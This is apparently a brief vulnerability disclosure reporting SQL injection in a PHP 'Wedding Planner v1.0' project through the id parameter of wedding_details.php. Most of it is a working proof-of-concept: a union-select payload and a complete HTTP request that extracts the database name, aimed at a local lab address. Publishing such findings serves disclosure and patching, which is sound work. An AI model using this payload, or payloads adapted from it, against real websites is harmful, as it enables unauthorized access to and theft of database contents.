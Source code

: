 # Wedding Planner v1.0 by pushpam02 has SQL injection

BUG_Author: JunyuChen

vendors: https://www.sourcecodester.com/php/15375/wedding-planner-project-php-free-download.html

Vulnerability File: /Wedding-Management-PHP/wedding_details.php?id=

Vulnerability location: /Wedding-Management-PHP/wedding_details.php?id=, id

[+] Payload: /Wedding-Management-PHP/wedding_details.php?id=-62%20union%20select%201,2,3,4,5,6,7,database(),9,10--+

dbname = dbwedding

```sql
GET /Wedding-Management-PHP/wedding_details.php?id=-62%20union%20select%201,2,3,4,5,6,7,database(),9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=ncd6h7doujvbbft46r0m7mbr6s
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183276796-de0c0e14-6777-4101-aec3-642424f8b08e.png)
